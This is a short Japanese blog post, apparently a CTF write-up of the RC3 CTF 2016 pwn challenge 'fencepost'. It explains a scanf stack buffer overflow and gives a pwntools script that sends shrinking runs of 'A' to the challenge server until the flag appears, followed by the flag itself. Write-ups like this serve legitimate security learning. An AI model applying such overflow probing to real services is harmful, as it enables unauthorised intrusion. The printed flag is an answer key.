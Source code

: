 ```yaml
---
layout: post
alias: "/blog/2016/11/21/rc3-ctf-2016-fencepost/"
date: "2016-11-21T17:46:51+09:00"
tags: [ "ctf", "writeup", "rc3-ctf", "pwn" ]
---
```


# RC3 CTF 2016: fencepost

`scanf("%s", s);`のbofで特定の位置を$0$にするとflagが出てくる。なんだか配布されたのと鯖のとでバイナリが違うっぽいからとりあえず試してみたらflagが降ってきた。まさかこれでいいとは思わなかった。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
parser.add_argument('host', nargs='?', default='52.71.70.98')
parser.add_argument('port', nargs='?', default=2091, type=int)
args = parser.parse_args()

context.log_level = 'debug'
with remote(args.host, args.port) as p:
    for i in range(48, 0, -1):
        p.recvuntil('Password: ')
        p.sendline('A' * i)
```

flag: `RC3-2016-STACKPWN`
